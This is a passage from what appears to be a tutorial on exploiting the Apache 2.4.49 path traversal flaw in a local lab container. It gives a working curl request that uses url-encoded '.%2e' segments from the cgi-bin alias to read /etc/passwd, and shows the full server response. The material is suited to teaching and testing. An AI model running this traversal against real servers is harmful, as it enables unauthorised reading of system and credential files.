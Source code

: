 ```
vuln-httpd

```

You may, of course, use any available text editor to modify the files. The grep/sed method works with a shell within the container, as there are no text editors available.

**Get to the Exploits Already!**

Now that we have set up our container, we can get to exploiting this CVE (finally). The method is pretty straightforward, and it involves url-encoding one of the . symbols in each URL path segment while we traverse. We also need to traverse from an aliased path. Thankfully, we know from reading the config that the `cgi-bin` path is aliased by default, so let's use that! The exploit differs slightly between version 2.4.49 and 2.4.50, though the latter also works on the former.
Apache 2.4.49 without CGI enabled

Without CGI enabled, we can only read files. Using curl, we simply access the files that we want, url-encoding one of the `.` in each path segment.

```
user@machine$  curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'
*   Trying 127.0.0.1:8080...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Oct 2021 10:58:04 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host localhost left intact

```
